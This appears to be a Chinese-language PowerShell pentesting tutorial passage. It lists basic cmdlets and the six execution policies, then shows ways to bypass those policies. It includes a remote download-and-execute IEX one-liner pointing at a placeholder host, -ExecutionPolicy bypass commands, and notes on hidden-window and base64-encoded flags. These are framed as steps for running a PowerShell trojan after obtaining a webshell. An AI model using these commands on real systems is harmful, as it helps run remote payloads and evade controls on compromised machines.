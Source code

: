     Get-Content test.txt  显示文本内容

    Set-Content test.txt-Value "hello,word" 设置文本内容

    Get-Process  查看当前服务列表

    Get-Location 获取当前位置

    Get-WmiObject -Class Win32_ComputerSystem |Select-object -ExpandProperty UserName 查看登录到物理机的用户

执行策略
    powershell有六种执行策略：

    Unrestricted  权限最高，可以不受限制执行任意脚本

    Restricted  默认策略，不允许任意脚本的执行

    AllSigned  所有脚本必须经过签名运行

    RemoteSigned  本地脚本无限制，但是对来自网络的脚本必须经过签名

    Bypass   没有任何限制和提示

    Undefined  没有设置脚本的策略

    默认情况下，禁止脚本执行。除非管理员更改执行策略。Set-ExecutionPolicy

绕过执行策略执行大概有以下几种：

1.本地读取然后通过管道符运行

        powershell Get-Content 1.ps1 | powershell -NoProfile -    

2.远程下载并通过IEX运行脚本

        powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx/a.ps1')"    

3.Bypass执行策略绕过

        powershell -ExecutionPolicy bypass -File ./a.ps1    

不会显示警告和提示

4.Unrestricted执行策略标志

        powershell -ExecutionPolicy unrestricted -File ./a.ps1    

当运行一个从网上下载的未签名的脚本时，会给出权限提示

需要解释的是：

    Invoke-Expression（IEX的别名）：用来把字符串当作命令执行。

    WindowStyle Hidden（-w Hidden）：隐藏窗口

    Nonlnteractive（-NonI）：非交互模式，PowerShell不为用户提供交互的提示。

    NoProfile（-NoP）：PowerShell控制台不加载当前用户的配置文件。

    Noexit（-Noe）：执行后不退出Shell。

    EncodedCommand（-enc）: 接受base64 encode的字符串编码，避免一些解析问题

bypass Anti-Virus
如果考虑实际情况，假设我们获取了一个webshell。以上的几种方法只有IEX可以远程加载直接运行，其余都需要上传ps木马再绕过执行策略。
